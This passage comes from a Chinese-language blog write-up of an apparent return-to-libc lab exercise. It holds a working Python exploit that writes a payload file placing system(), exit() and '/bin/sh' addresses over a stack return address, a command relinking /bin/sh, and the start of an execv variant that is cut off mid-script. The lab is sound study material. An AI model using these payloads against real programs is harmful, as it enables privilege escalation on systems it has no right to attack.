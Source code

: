 ![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102145282.png)

然后填入 exploit.py 中，关于X,Y,Z的位置，根据栈的关系，X为system()，在底部，其参数\bin\sh在顶部部，中间为调用而压栈的Z，exit()。
但是发现始终不对。于是改用libc中的\bin\sh：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102146759.png)
> 之后发现是 getenv 在编译时应该和 retlib 配置一样，即gcc -m32  -fno-stack-protector -z noexecstack -o getenv getenv.c
最后代码为：
```py
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0x1c+8
sh_addr = 0xf7f5c352       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0x1c+0
system_addr = 0xf7e12420   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0x1c+4
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

成功获取权限：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102147633.png)


## Task 4
首先更改对zsh的链接：
```shell
sudo ln -sf /bin/bash /bin/sh

```
然后找到 execv 的地址：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102147961.png)

然后编写exploit.py如下：
```py
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

bof_start = 0xffffcd60
input_start = 0xffffcda0


X = 0x1c+8
sh_addr = 0xffffd402      # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0x1c+0
system_addr = 0xf7e994b0   # The address of execv()
```
